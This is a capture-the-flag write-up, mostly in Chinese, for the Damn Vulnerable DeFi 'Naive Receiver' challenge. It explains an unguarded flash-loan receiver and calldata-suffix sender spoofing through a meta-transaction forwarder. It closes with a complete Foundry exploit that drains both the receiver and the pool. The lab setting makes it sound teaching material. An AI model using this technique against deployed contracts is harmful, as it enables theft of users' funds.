

# Solution

## 题目

There’s a pool`NativeReceiverPool` with 1000 WETH in balance offering flash loans. It has a fixed fee of 1 WETH. 

The pool supports meta-transactions by integrating with a permissionless forwarder contract`BasicForwarder`. 

A user deployed a sample contract`FlashLoanReceiver` with 10 WETH in balance. Looks like it can execute flash loans of WETH.

Get all WETH from the user and the pool, and deposit it into the designated recovery account.


## 问题

1. `FlashLoanReceiver`继承了IERC3156FlashBorrower的onFlashLoan标准，但是写出了一个没有限制可以任意人call的函数，也就是说任何人可以通过调用`FlashLoanReceiver::onFlashLoan()` 或者`NaiveReceiverPool::flashLoan()`的函数来进行FlashLoan并支付手续费，而`FlashLoanReceiver`的10ETH这样在外部任意人员调用10次后消耗完，并转入`NaiveReceiverPool`中。

   但值得注意的是，本节中没有`_executeActionDuringFlashLoan()`的逻辑，如果有这段逻辑则一般会在合约不产生套利盈利的情况下revert。


2. 这个小节的关键在于`NaiveReceiverPool`可以被盗取所有资金，因为`withdraw()`函数的设计有问题，`_msgSender()`函数可以在我们的设计下传出任意地址，导致资金被盗取。

```solidity
    function withdraw(uint256 amount, address payable receiver) external {
        // Reduce deposits
        deposits[_msgSender()] -= amount;
        totalDeposits -= amount;

        // Transfer ETH to designated receiver
        weth.transfer(receiver, amount);
    }

    function _msgSender() internal view override returns (address) {
        if (msg.sender == trustedForwarder && msg.data.length >= 20) {
            return address(bytes20(msg.data[msg.data.length - 20:]));
            ///msg.data一般call的情况下是函数选择器4位+每个参数32位
            //在withdraw函数中，有两个参数，所以msg.data.length = 4 + 32 + 32 = 68，绝对大于20
            //本来msg.data[msg.data.length - 20:]预期上可以取数据的最后的20位，即第二个参数的地址，
            //但是谁都可以最后在calldata的数据中再加上20位地址进行call，所以这里是不安全的
        } else {
            return super._msgSender();
        }
    }
```

在这个案例中，完成部署时，所有ETH在deployer对应的`deposits`mapping上,只要`_msgSender()`返回的最后是deployer的地址就可以全部取出。

即达成`address(bytes20(msg.data[msg.data.length - 20:])=address(deployer)`

为达成这个效果，首先我们需要`BasicFowarder::execute()`发送`withdraw(uint256,address)`操作，且msg.data对应能转为deployer的地址

> `BasicForwarder` 是一个 **可信任交易转发器（Trusted Forwarder）**，属于元交易（Meta-Transaction）模式。它允许用户通过签名委托第三方代为执行链上操作，而无需用户自己支付 gas。典型应用场景包括：
>
> - 用户无 ETH 但需要与合约交互（如 DApp 的 gas 代付）
> - 批量交易的聚合执行
> - 跨链操作中继

````solidity
    function execute(Request calldata request, bytes calldata signature) public payable returns (bool success) {
        _checkRequest(request, signature);

        nonces[request.from]++;

        uint256 gasLeft;
        uint256 value = request.value; // in wei
        address target = request.target;
        bytes memory payload = abi.encodePacked(request.data, request.from);
        uint256 forwardGas = request.gas;
        assembly {
            success := call(forwardGas, target, value, add(payload, 0x20), mload(payload), 0, 0) // don't copy returndata
            gasLeft := gas()
        }

        if (gasLeft < request.gas / 63) {
            assembly {
                invalid()
            }
        }
    }
````

其中关键涉及assembly中的`call()`方法，`call()`的详细描述如下：

> `call(g, a, v, in, insize, out, outsize)`
>
> call contract at address a with input mem[in…(in+insize)) providing g gas and v wei and output area mem[out…(out+outsize)) returning 0 on error (eg. out of gas) and 1 on success
>
> **where** mem[a...b)` signifies the bytes of memory starting at position `a` up to but not including position `b


对于这个案例，call中具体参数如下：

`call(forwardGas, target, value, add(payload, 0x20), mload(payload), 0, 0)`

- `forwardGas`：分配给本次调用的 gas 限额。(来自request结构体)
- `target`：被调用的合约地址（类型为 `address`）。(来自request结构体)
- `value`：随调用发送的以太币数量（单位：wei）。(来自request结构体)
- `add(payload, 0x20)`：输入数据的起始内存地址。`payload` 是 `bytes` 类型的内存指针，前 32 字节存储长度，`+0x20` 跳过长度，指向实际数据。
- `mload(payload)`：输入数据的长度。`mload(p)`在这里会读取mem[p...p+32)这段内存中的字节大小 。
- `0, 0`：输出参数。表示不将返回数据复制到内存（节省 gas）。

**如何理解？**

```solidity
function func() public {
  bytes memory payload = abi.encodePacked("data",address(this));

  uint256 initM;
  uint256 initSizeM;
 assembly {
           initM := add(payload, 0x20) // don't copy returndata
           initSizeM:= mload(payload)
        }

init = initM;
initSize = initSizeM;
payLoad = payload;
}

在这段代码中，payload是24字节的数据，0x646174611d142a62e2e98474093545d4a3a0f7db9503b8bd

initSize用mload读取就是等于24（在Yul的assembly中只有uint256一种数据类型）

init读取的值是160,这是因为payload内容在0x80上（solidity默认指针指向的位置,自由指针在0x40上指向0x80）
0x80存着0000000........0018 (payload数据大小)
0xA0存着00000....646174611d142a62e2e98474093545d4a3a0f7db9503b8bd(payload实际数据)

这意味着add(payload,0x20)=add(0x80,0x20)，所以等于160(0xA0)
```

理解完后那么整体的流程基本如下：




```solidity 
function test_naiveReceiver() public checkSolvedByPlayer {
        bytes[] memory callDatas = new bytes[](11);
        for(uint i=0; i<10; i++){
            callDatas[i] = abi.encodeCall(NaiveReceiverPool.flashLoan, (receiver, address(weth), 0, "0x"));
        }
        callDatas[10] = abi.encodePacked(abi.encodeCall(NaiveReceiverPool.withdraw, (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))),
            bytes32(uint256(uint160(deployer)))
        );
        bytes memory callData;
        callData = abi.encodeCall(pool.multicall, callDatas);
        BasicForwarder.Request memory request = BasicForwarder.Request(
            player,
            address(pool),
            0,
            30000000,
            forwarder.nonces(player),
            callData,
            1 days
        );
        bytes32 requestHash = keccak256(
            abi.encodePacked(
                "\x19\x01",
                forwarder.domainSeparator(),
                forwarder.getDataHash(request)
            )
        );
        (uint8 v, bytes32 r, bytes32 s)= vm.sign(playerPk ,requestHash);
        bytes memory signature = abi.encodePacked(r, s, v);
        require(forwarder.execute(request, signature));
    }
    //写的不如我自己写的好


```

